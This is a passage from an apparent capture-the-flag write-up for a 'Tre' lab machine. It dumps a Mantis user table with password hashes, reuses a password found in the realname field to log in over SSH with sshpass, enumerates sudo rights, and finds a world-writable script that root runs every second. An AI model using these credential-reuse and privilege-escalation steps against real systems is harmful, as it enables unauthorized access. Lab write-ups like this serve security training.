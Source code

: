 Now click on the "mantis_user_table" table and click on the "Select data" link to dump the table:

id | username | realname | email | password
---|---|---|---|---
1 | administrator | XiBejMub | root@localhost | 3492f8fe2cb409e387ddb0521c999c38
2 | tre | Tr3@123456A! | tre@localhost | 64c4685f8da5c2225de7890c1bad0d7f

None of the MD5 hash is found online. Let's try to authenticate against SSH with `tre:Tr3@123456A!` as tre's realname looks like a password:

~~~
sshpass -p "Tr3@123456A!" ssh tre@tre.box
~~~

It worked.

# Tre's privileges

Now connected as `tree`, let's check the privileges. The use is allowed to shutdown or reboot the machine (`shutdown -r`).

~~~
tre@tre:~$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
~~~

# Privilege escalation

## Cron job

Running `pspy64` will reveal that `/usr/bin/check-system` is running every second:

~~~
2020/09/30 06:05:30 CMD: UID=0    PID=3448   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:31 CMD: UID=0    PID=3450   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:32 CMD: UID=0    PID=3451   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:33 CMD: UID=0    PID=3452   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:34 CMD: UID=0    PID=3453   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:35 CMD: UID=0    PID=3454   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:36 CMD: UID=0    PID=3455   | /bin/bash /usr/bin/check-system 
2020/09/30 06:05:37 CMD: UID=0    PID=3456   | /bin/bash /usr/bin/check-system 
~~~

The script is writable to us:

~~~
tre@tre:~$ ls -l /usr/bin/check-system 
-rw----rw- 1 root root 135 May 12 04:08 /usr/bin/check-system
~~~
